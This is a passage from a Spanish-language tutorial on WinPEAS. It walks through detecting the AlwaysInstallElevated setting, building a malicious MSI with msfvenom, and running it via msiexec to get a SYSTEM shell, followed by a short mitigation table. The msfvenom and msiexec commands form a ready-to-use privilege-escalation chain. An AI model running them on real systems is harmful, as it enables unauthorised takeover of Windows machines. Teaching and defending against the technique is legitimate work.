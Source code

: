 #### 🧰 Paso 1: Ejecutas WinPEAS

```cmd
winpeas.exe
```

#### 🔍 Paso 2: Identificas una vulnerabilidad

Entre los resultados, ves esto:

```
[+] AlwaysInstallElevated is ENABLED in HKLM and HKCU
```

Esto significa que puedes escalar privilegios a SYSTEM ejecutando un `.msi` malicioso.

#### 🔧 Paso 3: Creas el payload en Kali

En tu máquina Kali:

```bash
msfvenom -p windows/exec CMD=cmd.exe -f msi > elevacion.msi
```

Subes el archivo `.msi` a la víctima.

#### 🧨 Paso 4: Ejecutas el `.msi` como usuario limitado

```cmd
msiexec /quiet /qn /i elevacion.msi
```

✅ ¡Ahora se abre una terminal como SYSTEM!

---

### 🛡️ ¿Cómo protegerse?

| Acción                                                           | Descripción                                        |
| ---------------------------------------------------------------- | -------------------------------------------------- |
| Desactiva AlwaysInstallElevated                                  | En políticas de grupo o manualmente en el registro |
| Usa permisos mínimos para usuarios                               | No des permisos innecesarios                       |
| Monitorea cambios sospechosos en servicios, tareas y el registro |                                                    |
| Revisa regularmente con herramientas como WinPEAS                |                                                    |

---

### 📘 Resumen final

| Elemento          | Detalle                                                                   |
| ----------------- | ------------------------------------------------------------------------- |
| ¿Qué es?          | WinPEAS es una herramienta para enumerar vectores de escalada en Windows  |
| ¿Cómo se instala? | Descarga el `.exe` desde GitHub y súbelo a la máquina víctima             |
| ¿Cómo se usa?     | Ejecutas el `.exe` en la máquina Windows; analiza y muestra riesgos       |
| ¿Para qué sirve?  | Para descubrir formas de escalar privilegios (de user a admin/SYSTEM)     |
| ¿Ejemplo?         | Detecta `AlwaysInstallElevated`, creas `.msi` malicioso y obtienes SYSTEM |

---